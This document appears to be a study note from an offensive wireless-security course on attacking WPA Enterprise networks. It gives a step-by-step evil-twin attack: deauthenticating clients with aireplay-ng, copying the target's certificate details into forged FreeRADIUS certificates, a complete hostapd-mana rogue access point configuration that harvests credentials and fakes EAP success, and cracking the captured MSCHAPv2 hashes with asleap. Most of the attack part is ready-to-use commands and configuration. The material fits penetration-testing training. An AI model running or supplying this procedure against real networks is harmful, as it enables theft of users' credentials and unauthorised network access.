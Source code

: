 # Attacking WPA Enterprise

WPA Enterprise uses Extensible Authentication Protocol (EAP).[1](https://portal.offsec.com/courses/pen-210-9545/learning/attacking-wpa-enterprise-15796/attacking-wpa-enterprise-16073#fn-local_id_326-1) EAP is a framework for authentication, which allows a number of different authentication schemes or methods.

### Attack

Let's take a moment to summarize our attack. We will be creating a rogue AP to match the settings of our target as closely as possible. We will use hostapd-mana to create the rogue AP and match the target settings. This will help us capture the credentials, which we will crack later.



After putting our **wlan0** interface in monitor mode, we now have an interface called **wlan0mon**. We will identify the channel of the target AP and gather its ESSID and BSSID.

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's return to our attack. Next, we will restart the capture on the same channel as the AP. This is similar to what we did when cracking WPA-PSK. We'll save the data to disk as Playtronics-01.cap.

In order to get the certificate, we can deauthenticate a client. We'll do this the same way we would with a WPA-PSK client, using _aireplay-ng_.

Once airodump-ng indicates we've captured a handshake, we can stop the capture. In most instances, a certificate is present. We will get the certificate from the enterprise authentication that happened before the handshake.

We can now disable monitor mode by running **sudo airmon-ng stop wlan0mon**.

We have to open the capture file with _Wireshark_ and locate the server certificate frame.

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

For each certificate, we right click and select _Export Packet Bytes_ to save the data into a file with a .der extension.

As a root user, we'll need to navigate to /etc/freeradius/3.0/certs and change the settings of ca.cnf. We edit the **\[certificate\_authority]** fields to match our target CA certificate to appear less suspicious to clients in case they inspect the certificate.

```
...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...
```

The server information needs to be updated in server.cnf. This should be similar to what we did with the CA. We will edit the **\[server]** fields to match our target server certificate. We'll skip client.cnf because we don't need it.

```
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
...
```

delete the DH file before running make.

```
openssl dhparam -out dh -2 2048
```

we have to create the hostapd-mana configuration file, /etc/hostapd-mana/mana.conf:

```
# SSID of the AP
ssid=Playtronics

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

We'll now need to create the EAP user file referenced in the configuration file, /etc/hostapd-mana/mana.eap\_user. The file should contain the following.

{% code overflow="wrap" %}
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
{% endcode %}

We're ready to continue. Next, we'll start hostapd-mana with the configuration file we created earlier, /etc/hostapd-mana/mana.conf.

```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

When a victim attempts to authenticate to our AP, the login attempt is captured. These credentials are also in /tmp/hostapd.credout.

We will be using **asleap** to crack the password hash.

{% code overflow="wrap" %}
```
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
```
{% endcode %}

